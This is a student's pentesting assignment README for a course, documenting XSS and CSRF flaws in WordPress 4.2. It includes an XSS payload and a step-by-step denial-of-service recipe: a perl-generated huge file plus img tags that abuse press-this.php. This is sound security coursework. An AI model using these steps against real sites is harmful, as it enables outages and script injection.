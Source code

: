 # Codepath-week7-assignment
this is the codepath week 7 assignment
# Project 7 - WordPress Pentesting

Time spent: **infinity** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID
  - [x] Summary: XSS in Media
    - Vulnerability types:XSS
    - Tested in version:4.2
    - Fixed in version: 4.7.5
  - [x] GIF Walkthrough: https://github.com/mcp352/Codepath-week7-assignment/blob/master/268E5800-5A93-4B21-894F-FCF51EDDC791.GIF
  - [x] Steps to recreate: I NO JOKE FOUND THIS ONE MYSELF
  when you cant find a page there is a wordpress search bar for which you can type in almsot any XSS code and get it to run

1. (Required) Vulnerability Name or ID
  - [x] Summary: Post XSS
    - Vulnerability types:XSS
    - Tested in version:4.2
    - Fixed in version: 4.2.16
  - [x] GIF Walkthrough: https://github.com/mcp352/Codepath-week7-assignment/blob/master/26853F0C-8FF8-45CD-A293-118BEDE1A3D8.GIF
  - [x] Steps to recreate: be an admin on a wordpress site and make a new (malicious) post that contains <img src=a onerror=(1)>

1. (Required) Vulnerability Name or ID
  - [x] Summary: CSRF and a dash of XSS
    - Vulnerability types:CSRF
    - Tested in version:4.2
    - Fixed in version: 4.2.15
  - [ ] GIF Walkthrough: I would post a GIF walkthrough but I do not have an external server to do this one
  - [x] Steps to recreate: On an external server, create a large text file with the command:
perl -e 'print "<>"x28000000' > foo.txt

Next, create a file called dos.html on the external server with enough entries to fill the connection pool of the WordPress server, as follows:
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=b'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=c'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=d'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=e'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=f'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=g'>
[..]
(replace <wp server> with the WordPress server address and <external server> with the external server)

Now have a logged in admin visit dos.html. The server will be down for a while.


## Resources


GIFs created with [SnagIt].

## License

    Copyright [2017] [Chase Pounders]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
